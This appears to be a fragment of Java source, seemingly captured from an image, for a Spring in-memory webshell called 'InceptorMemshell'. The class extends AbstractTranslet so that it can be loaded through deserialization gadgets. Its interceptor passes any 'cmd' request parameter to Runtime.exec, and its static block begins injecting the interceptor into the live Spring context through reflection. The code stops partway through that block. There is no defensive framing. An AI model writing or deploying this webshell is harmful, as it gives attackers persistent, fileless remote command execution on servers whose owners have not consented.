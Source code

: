 ```java
import com.sun.org.apache.xalan.internal.xsltc.DOM;
import com.sun.org.apache.xalan.internal.xsltc.TransletException;
import com.sun.org.apache.xalan.internal.xsltc.runtime.AbstractTranslet;
import com.sun.org.apache.xml.internal.dtm.DTMAxisIterator;
import com.sun.org.apache.xml.internal.serializer.SerializationHandler;
import java.io.IOException;
import java.lang.reflect.Field;
import java.util.ArrayList;
import javax.servlet.http.HttpServletRequest;
import javax.servlet.http.HttpServletResponse;
import org.springframework.web.context.WebApplicationContext;
import org.springframework.web.context.request.RequestContextHolder;
import org.springframework.web.servlet.HandlerInterceptor;
import org.springframework.web.servlet.ModelAndView;
import org.springframework.web.servlet.handler.AbstractHandlerMapping;
import org.springframework.web.servlet.mvc.method.annotation.RequestMappingHandlerMapping;

public class InceptorMemshell extends AbstractTranslet implements HandlerInterceptor {
    public InceptorMemshell() {
    }

    public boolean preHandle(HttpServletRequest request, HttpServletResponse response, Object handler) throws Exception {
        String cmd = request.getParameter("cmd");
        if (cmd != null) {
            try {
                Runtime.getRuntime().exec(cmd);
            } catch (IOException var6) {
                var6.printStackTrace();
            } catch (NullPointerException var7) {
                var7.printStackTrace();
            }

            return true;
        } else {
            return false;
        }
    }

    public void postHandle(HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse, Object o, ModelAndView modelAndView) throws Exception {
    }

    public void afterCompletion(HttpServletRequest httpServletRequest, HttpServletResponse httpServletResponse, Object o, Exception e) throws Exception {
    }

    public void transform(DOM document, SerializationHandler[] handlers) throws TransletException {
    }

    public void transform(DOM document, DTMAxisIterator iterator, SerializationHandler handler) throws TransletException {
    }

    static {
        System.out.println("start!");
        WebApplicationContext webapplicationContext = (WebApplicationContext)RequestContextHolder.currentRequestAttributes().getAttribute("org.springframework.web.servlet.DispatcherServlet.CONTEXT", 0);
        RequestMappingHandlerMapping abstractHandlerMapping = (RequestMappingHandlerMapping)webapplicationContext.getBean(RequestMappingHandlerMapping.class);
        Field field = null;

```